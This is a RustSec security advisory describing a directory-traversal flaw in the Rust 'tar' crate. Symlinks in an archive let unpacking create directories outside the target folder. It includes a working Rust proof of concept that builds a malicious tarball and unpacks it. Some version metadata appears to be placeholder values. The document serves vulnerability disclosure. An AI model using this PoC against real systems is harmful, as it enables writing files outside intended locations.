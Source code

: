 ```toml
[advisory]
id = "RUSTSEC-0000-0000"
package = "tar"
date = "2021-07-19"
url = "https://github.com/alexcrichton/tar-rs/issues/238"
categories = ["directory-traversal"]

[versions]
# none, 0day
#patched = ["> 0.4.35"]

[affected]
functions = { "tar::Archive::unpack" = ["< 1.2.3"] }
```

# Links in archive can create arbitrary directories

When unpacking a tarball that contains a symlink the `tar` crate may create
directories outside of the directory it's supposed to unpack into.

The function errors when it's trying to create a file, but the folders are
already created at this point.

```rust
use std::{io, io::Result};
use tar::{Archive, Builder, EntryType, Header};

fn main() -> Result<()> {
    let mut buf = Vec::new();

    {
        let mut builder = Builder::new(&mut buf);

        // symlink: parent -> ..
        let mut header = Header::new_gnu();
        header.set_path("symlink")?;
        header.set_link_name("..")?;
        header.set_entry_type(EntryType::Symlink);
        header.set_size(0);
        header.set_cksum();
        builder.append(&header, io::empty())?;

        // file: symlink/exploit/foo/bar
        let mut header = Header::new_gnu();
        header.set_path("symlink/exploit/foo/bar")?;
        header.set_size(0);
        header.set_cksum();
        builder.append(&header, io::empty())?;

        builder.finish()?;
    };

    Archive::new(&*buf).unpack("demo")
}
```

This issue was discovered and reported by Martin Michaelis (@mgjm).

